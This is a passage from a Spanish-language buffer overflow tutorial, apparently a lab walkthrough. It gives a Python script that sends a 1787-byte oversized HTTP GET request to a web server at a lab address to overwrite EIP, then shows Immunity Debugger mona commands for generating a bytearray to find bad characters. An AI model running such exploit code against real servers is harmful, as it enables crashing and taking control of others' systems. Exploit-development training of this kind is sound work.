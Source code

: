 Esto significa que hay que ingresar 1787 caracteres para que los siguientes caracteres que se ingresen, sobrescriban el EIP. Esto se puede representar en el script de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 80
offset= 1787

before_eip = b"A"*offset
eip = b"B"*4

def exploit ():

    try:
        c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        c.settimeout(7)
        c.connect((ip_add, port))

        c.send(b"GET " + before_eip + eip + b" HTTP/1.1\r\n\r\n")
        c.recv(1024)
        c.close()
                
    except:
        print("[+] El programa ha concluido")
        sys.exit(1)

if __name__ == '__main__':
    exploit()
```

## Crear el bytearray y detectar badchars

Una vez tomado el control del EIP, se creará una cadena de bytes o un bytearray para ver qué bytes no se interpretan en el stack y detectar badchars, para hacer esto se utilizará la heramienta mona del Immunity Debugger.

```bash
# Crear directorio de trabajo
!mona config -set workingfolder C:\Users\bryan\Desktop\Analysis

# Generar el bytearray
!mona bytearray -cpb '\x00'

-cpb # Indica que bytes excluir en el nuevo byetarray generado
```

Esto generará un archivo llamado “bytearray” en el directorio “Analysis” con el bytearray generado.

